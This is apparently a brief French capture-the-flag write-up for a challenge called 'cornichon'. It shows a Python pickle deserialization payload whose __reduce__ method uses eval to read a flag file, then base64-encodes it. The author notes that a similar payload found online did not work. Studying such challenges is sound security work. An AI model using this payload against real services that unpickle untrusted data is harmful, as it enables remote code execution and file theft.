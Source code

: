# cornichon !

```
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        return (eval, ("open('/flag/flag').readlines()", ))

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
    #print(pickled)
```

Tentative avec un payload du même genre trouvé sur le net, mais non
fonctionnel, probablement car je n'avais pas accès aux imports nécessaires du
payload.
